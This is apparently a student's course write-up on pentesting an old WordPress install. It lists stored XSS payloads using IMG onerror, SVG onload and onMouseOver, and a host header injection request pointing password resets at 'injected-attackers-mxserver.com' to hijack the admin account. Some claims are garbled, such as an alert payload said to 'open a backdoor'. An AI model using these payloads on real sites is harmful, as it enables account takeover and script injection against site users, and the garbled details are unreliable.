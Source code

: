 # Assignment_7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) VUlnerability Name or ID: Wordpress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: Used wpscan to locate XSS vulnerability. Then look at steps to recreate. 
    - Vulnerability types:XSS
    - Tested in version: WP 4.2 
    - Fixed in version: WP 4.2.10
  - [ ] GIF Walkthrough: <a href="https://imgur.com/koN3Nea"><img src="https://i.imgur.com/koN3Nea.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Login as admin. Go to create a page. Insert XSS into the headline of the page. View page. XSS will demonstrate. 
  - [ ] Affected source code: .....<div class="entry-content">
		<p class="p1"><span class="s1">&lt;IMG SRC=&#8221;#&#8221; ONERROR=&#8221;</span><span class="s2">alert(&#8216;XSS&#8217;)</span><span class="s1">&#8220;/&gt;</span></p>.....
			</div><!-- .entry-content -->
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
1. (Required) Vulnerability Name or ID: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: Script opens backdoor that gives attacker access to the site. 
    - Vulnerability types: XSS
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.2.13
  - [ ] GIF Walkthrough: <a href="https://imgur.com/88S3nye"><img src="https://i.imgur.com/88S3nye.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Find youtube video link to embed. Use the following code on the end x3csvg onload=alert(1)x3e’ Open backdoor to site.
  - [ ] Affected source code:<iframe width="560" height="315" src="’https://www.youtube.com/embed/fWeR6UhHRAM\x3csvg onload=alert(1)x3e’" frameborder="0" allowfullscreen></iframe>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID: WordPress 2.3-4.8.3 - Host Header Injection in Password Reset
  - [ ] Summary: We can manipulate the URL into revealing the admin username. In addition, we can also use a tool like burp to reset the admin password. 
    - Vulnerability types: User Enumeration/ Priviledge Escalation
    - Tested in version: WP 4.2
    - Fixed in version: WP 4.7.4
  - [ ] GIF Walkthrough: <a href="https://imgur.com/E1Nmx8l"><img src="https://i.imgur.com/E1Nmx8l.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: I just tested the URL as my Burp has been acting up...but I am going to post the content I found for that here too. I just added http://wpdistillery.local/wp-login.php?action=adminlostpassword%20HTTP/1.1 an extra little bit of code to the url in order to get the admin username. I could take it a step further and request a new password for the admin and have it sent to my email of choice by sending the email to an email server of my choice and modifying burp in the following manner:
  
  POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
  
  HOST: injected-attackers-mxserver.com
  
  Content-Type: application/x-www-form-urlencoded
  
  Content-Length: 56
  
  user login=admin&redirect to=wp-submit=Get+New+Password
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
  - [ ] GIF Walkthrough: <a href="https://imgur.com/RKAD05s"><img src="https://i.imgur.com/RKAD05s.gif" title="source: imgur.com" /></a>
  - [ ] Steps to recreate: Go to a posting on WP. Go to inspect element. Scroll down to div entry-content. Add the following code: <p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>....Clik on the Click Me. XSS Executes
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
